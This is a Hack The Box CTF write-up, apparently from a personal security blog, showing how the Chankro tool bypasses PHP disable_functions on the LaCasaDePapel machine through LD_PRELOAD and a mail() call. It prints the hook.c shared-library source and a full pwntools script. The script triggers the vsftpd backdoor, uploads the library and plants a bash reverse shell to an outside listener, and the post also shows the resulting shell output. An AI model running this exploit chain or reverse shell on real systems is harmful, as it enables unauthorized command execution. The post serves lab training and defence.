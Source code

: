 # Bypassing PHP disable_functions with Chankro

[ctf](/tags#ctf ) [hackthebox](/tags#hackthebox ) [htb-
lacasadepapel](/tags#htb-lacasadepapel ) [chankro](/tags#chankro )
[php](/tags#php ) [php-disable-functions](/tags#php-disable-functions ) [htb-
hackback](/tags#htb-hackback )  
  
Aug 2, 2019

  * [LaCasaDePapel Writeup](/2019/07/27/htb-lacasadepapel.html)
  * Chankro

![](https://0xdfimages.gitlab.io/img/chankro-cover.png)I was reading [Alamot’s
LaCasaDePapel
writeup](https://alamot.github.io/lacasadepapel_writeup/#getting-dali-shell-
by-escaping-php-restrictions), and they went a different way once they got the
php shell. Instead of just using the php functions to find the certificate and
key needed to read the private members https page, Alamot uses Chankro to
bypass the disabled execution functions and run arbitrary code anyway. I had
to try it.

## Background

[Chankro](https://github.com/TarlogicSecurity/Chankro) is a tool for bypassing
`disable_functions` in php to get execution anyway. It is common for content
owners to set up php with `disable_functions` set to prevent `system`,
`shell`, etc. That, in theory, prevents an attacker who finds a way to run
arbitrary php code (file upload + local file include, for example) from
getting command execution on the host.

On Linux hosts, when the php function `mail` is called, it invokes the binary
`sendmail`. The idea with Chankro is to set the `LD_PRELOAD` environment
variable to include a shared library and then call `mail`, and the shared
library will get execution.

`hook.c`, which compiles to`hook32.so` and `hook64.so` is pretty simple:

    
    
    #define  _GNU_SOURCE
    #include <stdlib.h>
    #include <string.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <signal.h>
    #include <unistd.h>
    
    
    void pwn(void) {
    	chmod(getenv("CHANKRO"), 00777);
            system(getenv("CHANKRO"));
    }
    
    void daemonize(void) {
    	signal(SIGHUP, SIG_IGN);
    	if (fork() != 0) {
    		exit(EXIT_SUCCESS);
    	}
    }
    
    __attribute__ ((__constructor__)) void preloadme(void) {
      unsetenv("LD_PRELOAD");
      daemonize();
      pwn();
    }
    

It basically cleans up the `LD_PRELOAD` environment variable and then gets the
name of a binary from the `CHANKRO` environment variable, changes the
permissions to 777, and calls it with `system`.

There is a python script in the repo to run it, but for these use cases, the
more useful path is four steps:

  1. Upload the `.so` file and a file to execute (shell script or elf).
  2. Set the environment variable `LD_PRELOAD` to point to the `.so`.
  3. Set the environment variable `CHANKRO` to point to the file to execute.
  4. Run `main('a','a','a','a');` in php.

That will result in execution of the script.

## LaCasaDePapel

The biggest challenge here is to get the `.so` file uploaded to target. I was
unable to get it to work using base64 and `file_put_contents`, as it’s too
big. So I opted to go the same route as Alamot and script it. I took my
generic
[vsftpd_backdoor.py](https://gitlab.com/0xdf/ctfscripts/blob/master/vsftpd2.3.4-backdoor/vsftpd_backdoor.py)
and modified it to upload and trigger Chankro. This code is pretty sloppy, but
I just threw it together for testing purposes:

    
    
    #!/usr/bin/env python
    
    import sys
    import time
    from pwn import *
    
    if len(sys.argv) < 2:
        print("%s [ip] [port = 21]" % sys.argv[0])
        print("port defaults to 21 if not given")
        sys.exit()
    elif len(sys.argv) == 2:
        port = 21
    else:
        port = int(sys.argv[2])
    target = sys.argv[1]
    
    print("[*] Connecting to %s:%d" % (target, port))
    ftp = remote(target, port)
    ftp.sendline(b'USER 0xdf:)')
    ftp.sendline(b'PASS 0xdf')
    time.sleep(2)
    ftp.close()
    print('[+] Backdoor triggered')
    print('[*] Connecting')
    
    try:
        psy = remote(target, 6200)
    except KeyboardInterrupt:
        print("[!] Exiting Shell")
        exit(1)
    
    print("[*] Uploading chankro.so")
    psy.sendline("$f = fopen('/tmp/chankro.so', 'w');")
    with open('/opt/Chankro/hook64.so', 'rb') as f:
        while True:
            d = f.read(1024)
            if not d:
                break
            psy.sendline("fwrite($f, base64_decode('%s'));" % base64.b64encode(d))
    
    psy.sendline("fclose($f)")
    print("[+] Uploaded chankro.so")
    shell = base64.b64encode("bash -c 'bash -i >& /dev/tcp/10.10.14.10/443 0>&1'")
    psy.sendline("file_put_contents('/tmp/acpid.socket', base64_decode('%s'))" % shell)
    print("[+] Uploaded shell as /tmp/acpid.socket")
    psy.sendline("putenv('CHANKRO=/tmp/acpid.socket');")
    psy.sendline("putenv('LD_PRELOAD=/tmp/chankro.so');")
    print("[+] Set env variables")
    print("[*] Triggering with mail call\n[*] Waiting for shell. This could take a minute.")
    psy.sendline("mail('a','a','a','a');")
    psy.close()
    
    dali = listen(443).wait_for_connection()
    dali.interactive()
    

When I run this, I get a shell back as dali:

    
    
    root@kali# ./lacasadepapel_dali_shell.py 10.10.10.131
    [*] Connecting to 10.10.10.131:21
    [+] Opening connection to 10.10.10.131 on port 21: Done
    [*] Closed connection to 10.10.10.131 port 21
    [+] Backdoor triggered
    [*] Connecting
    [+] Opening connection to 10.10.10.131 on port 6200: Done
    [*] Uploading chankro.so
    [+] Uploaded chankro.so
    [+] Uploaded shell as /tmp/acpid.socket
    [+] Set env variables
    [*] Triggering with mail call
    [*] Waiting for shell. This could take a minute.
    [*] Closed connection to 10.10.10.131 port 6200
    [+] Trying to bind to 0.0.0.0 on port 443: Done
    [+] Waiting for connections on 0.0.0.0:443: Got connection from 10.10.10.131 on port 37892
    [*] Switching to interactive mode
    bash: cannot set terminal process group (3121): Not a tty
    bash: no job control in this shell
    bash-4.4$ $ id
    id
    uid=1000(dali) gid=1000(dali) groups=1000(dali)
    

## Conclusion

My mind immediately went to [HackBack](/2019/07/06/htb-hackback.html#php-log-
poisoning) when I saw this technique, as it would have allowed me to get a
shell I was not able to get ([in a solid way](/2019/07/06/htb-
hackback.html#aspx-webshell)) before. However, I quickly realized HackBack is
a Windows box, so the technique doesn’t at all apply. I can upload files, but
calling mail will do something different, and there’s no `LD_PRELOAD` in
Windows, at least not in a way I can interact with at this point. It would be
an interesting area of research to see if there are ways to bypass
`disable_functions` on Windows.

Still, for Linux boxes, this is a really cool way to get around a common
protection. As an administrator, it’s probably best to add both `main` and
`setenv` to the `disable_functions` list, as either would prevent this attack.

[« LaCasaDePapel Writeup](/2019/07/27/htb-lacasadepapel.html)

[](/2019/08/02/bypassing-php-disable_functions-with-chankro.html)

